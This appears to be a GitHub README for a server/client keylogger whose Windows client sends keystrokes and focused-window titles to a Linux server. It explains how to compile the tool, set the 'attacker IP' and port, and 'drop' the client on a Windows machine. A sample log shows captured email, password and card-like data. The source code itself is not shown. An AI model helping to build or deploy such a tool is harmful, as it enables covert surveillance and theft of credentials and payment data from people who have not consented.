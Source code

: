 A simple server/client based keylogger.

The client will connect to the server and start sending keystrokes along with the currently focused window.

The server program runs on your Linux machine and receives the keystrokes, logs them in a file in the `log/` directory (It will be created after first run) and also prints them.

- Currently only has a Windows logger client.
- Server is built for Linux only.

Example log file:

```
>>> cat logs/2023_06_24.txt
		START OF LOG FILE

Date: 2023/06/24
IP Address: 192.168.122.156
========================================================


Focused Window: Downloads

 [LWIN]

Focused Window: Mozilla Firefox

Hope I am not getting keylogged rn [ENTER]


Focused Window: Amazon.com. Spend less. Smile more.  Mozilla Firefox

real@email.com [ENTER]
totallymypassword [ENTER]
748921865213271 05/28 323 [ENTER]
```


# Dependencies

You will need MinGW-w64 to compile the windows executable on Linux.

And obviously normal gcc.

Arch Linux:
```shell
sudo pacman -S mingw-w64 gcc
```

Ubuntu/Debian:
```shell
sudo apt install mingw-w64 gcc
```

# Usage

## Set options

Edit the HOST and PORT in `win_client.c` to the attacker IP and port.

```c
#define HOST "127.0.0.1"    // CHANGE ME
#define PORT 6666           // CHANGE ME
```

## Compile

```shell
make
```

Running `make` will compile both the server and client.
But you can also run `make server` or `make client`.


## Run server

Run the server on whatever port you set.

```shell
./bin/server -p <PORT>
```

After that drop your `win_client.exe` on a Windows machine and run it however you want.
